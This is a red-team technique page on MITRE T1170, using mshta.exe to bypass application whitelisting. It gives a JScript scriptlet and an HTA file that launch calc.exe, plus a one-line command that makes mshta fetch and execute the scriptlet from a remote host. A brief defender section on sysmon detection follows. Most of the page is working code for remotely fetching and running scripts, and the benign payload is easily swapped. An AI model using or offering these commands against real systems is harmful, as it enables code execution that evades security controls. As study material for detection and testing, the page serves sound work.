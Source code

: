 ```yaml
---
layout: post
title: "t1170 mshta code execution"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1170-mshta-code-execution/
---
```


---
layout: post
title: "t1170 mshta code execution"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1170-mshta-code-execution/
---

---
description: MSHTA code execution - bypass application whitelisting.
---

# MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode %}

Invoking the scriptlet file hosted remotely:

{% code title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](<../../.gitbook/assets/mshta-connection (1).png>)

Also, suspicious commandlines:

![](../../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../../.gitbook/assets/mshta-url.png)

{% code title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}
@spotheplanet
